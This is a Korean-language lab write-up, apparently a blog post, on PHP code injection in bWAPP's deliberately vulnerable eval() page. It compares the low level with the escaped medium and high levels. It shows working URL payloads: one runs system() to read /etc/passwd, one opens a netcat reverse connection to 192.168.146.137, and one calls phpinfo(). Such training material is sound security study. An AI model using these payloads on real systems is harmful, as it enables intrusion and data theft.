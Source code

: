```yaml
---
layout: single
title: (bWAPP)PHP Code Injection
categories: bwapp
tag: [php injection, php, injection, bwapp, bee box, php code injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직

```php
<?php

if(isset($_REQUEST["message"]))
{
    // If the security level is not MEDIUM or HIGH
    if($_COOKIE["security_level"] != "1" && $_COOKIE["security_level"] != "2")
    {
?>
    <p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
<?php
    }
    // If the security level is MEDIUM or HIGH
    else
    {
?>
    <p><i><?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?></i></p>
<?php
    }
}s
?>
```
## Level - Low
![그림 1-1](/assets/image/bwapp/injection/php-code/php-code-injection/image.png)

```php
<p><i><?php @eval ("echo " . $_REQUEST["message"] . ";");?></i></p>
```

- 해당 문제에 주어지는 LOW Level 소스코드는 위와 같다.
- eval 함수를 사용하여 사용자의 입력값을 실행하도록 되어 있다.
> eval() 함수란 사용자의 입력값으로 들어온 문자열을 해당 Server Side Script 의 코드로 인식하여 실행하는 함수이다. 이 때 입력값으로 들어온 문자열이 시스템 명령 함수가 존재할 경우 시스템 함수를 실행시킨다.

- 해당 LOW Level 에서 아무런 사용자 입력 값에 대한 유효성 검살를 하지 않고 바로 eval() 함수를 사용한다. 

```
/bWAPP/phpi.php?message=hello
```

![그림 1-2](/assets/image/bwapp/injection/php-code/php-code-injection/image2.png)
- 입력값이 echo 명령과 합쳐지면 페이지에 출력되는것을 확인했다. 

```
/bWAPP/phpi.php?message=system(%27head%20-3%20/etc/passwd%27)
```

- 위와 같이 php system 명령어를 인자로 넘겨줬다.
![그림 1-3](/assets/image/bwapp/injection/php-code/php-code-injection/image3.png)
- system() 명령이 성공적으로 실행된 걸 확인할 수 있다.
- 이를통해 Reverse Shell Connection또한 가능하다.

```
/bWAPP/phpi.php?message=system(%27nc%20192.168.146.137%205252%27)
```

![그림 1-4](/assets/image/bwapp/injection/php-code/php-code-injection/image4.png)
- 성공적으로 Reverse Connection이 맺어진 걸 볼 수 있다.

## Level - Medium & High

```php
<?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?>
```

- LOW Level 을 제외한 단계에서는 htmlspcialchars() 함수를 사용하여 메타문자 입력을 금지하고 있다.

- 이를 통해 LOW Level 과 같이 치명적인 공격은 불가능 하며, php의 경우 phpinfo() 를 통해 사용중인 php 정보 확인과 같은 취약점 판별은 가능하다

```
/bWAPP/phpi.php?message=phpinfo()
```

![그림 1-5](/assets/image/bwapp/injection/php-code/php-code-injection/image5.png)
